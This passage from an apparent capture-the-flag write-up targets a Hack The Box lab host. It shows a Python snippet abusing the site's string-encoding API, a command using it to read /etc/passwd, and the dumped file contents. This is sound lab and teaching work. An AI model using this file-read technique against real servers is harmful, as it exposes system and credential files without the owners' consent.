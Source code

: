 ```python
response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', proxies=proxy, json=json_data)

json = json.loads(response.text)
string = json['data']
base64_decode = base64.b64decode(string)
message = base64_decode.decode('ascii')
print(message)
```

- Here is the output in `Burp`.
- Note this method still requires us to decode it from `base64`.

![image](https://0xc0rvu5.github.io/docs/assets/images/20230309052813.png)

- Using the script will assist with this:

```bash
python show_file.py /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
svc:x:1000:1000:svc:/home/svc:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:113:120:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```
